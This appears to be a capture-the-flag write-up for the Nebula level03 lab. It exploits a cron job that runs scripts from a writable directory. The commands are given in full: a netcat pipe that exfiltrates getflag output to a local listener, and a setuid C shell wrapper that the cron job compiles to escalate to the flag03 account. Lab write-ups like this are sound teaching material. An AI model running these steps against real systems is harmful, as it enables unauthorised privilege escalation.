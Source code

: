 So we have a crontab that executes `writable.sh` every couple of minutes, which executes everything in `writable.d` (with a 5s timeout) and removes it afterwards.

One can go about it in a few different ways depending on what one considers getting the flag. My first idea does not give shell access but still executes `getflag` and shows the output:

```bash
level03@nebula:/home/flag03$ echo "getflag | nc 127.0.0.1 3333" > writable.d/test.sh; nc -l 3333
You have successfully executed getflag on a target account
```

In this case, the command exectured by the cronjob is `getflag | nc 127.0.0.1 3333` which executes getflag and sends the output to port 3333 on the same host. Before the cronjob is executed we make sure to start a listener on said port with `nc -l 3333` which receives the target string. In hinsight it would probably be easer to have the cronjob just dump the string in a file with read permissions.

However, in a realistic scenario it would be way better to get complete shell access so we try and aim for that using a similar technique to the previous challenges: We write a little program in C and let the cronjob which runs as `flag03` compile it and set the `setuid` bit:

```
level03@nebula:/home/flag03$ cat << EOF > /tmp/getflag.c
> #include <stdio.h>
> #include <stdlib.h>
> #include <sys/types.h>
> #include <unistd.h>
>
> int main()
> {
>   gid_t gid = getegid();
>   uid_t uid = geteuid();
>   setresgid(gid, gid, gid);
>   setresuid(uid, uid, uid);
>   system("/bin/bash");
> }
> EOF
level03@nebula:/home/flag03$ ls
writable.d  writable.sh
level03@nebula:/home/flag03$ echo "gcc /tmp/getflag.c -o /home/flag03/getflag; chmod +s /home/flag03/getflag" > writable.d/getflag.sh
level03@nebula:/home/flag03$ ./getflag
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
```

I do want to mention an issue I had while working out the solution so that I'm not the only one that learned from it: First I instructed the compiler to place the executable in the `/tmp` folder so that I don't pollute `/home`. The problem is that the `suid` bit did not seem to work unless I build the executable in the `/home` directory. So I searched for reasons why `suid` may be directory dependent and found the `nosuid` mount flag. One can easily check if that is the reason in this case:

```bash
flag03@nebula:/home/flag03$ cat /etc/fstab
overlayfs / overlayfs rw 0 0
tmpfs /tmp tmpfs nosuid,nodev 0 0
```
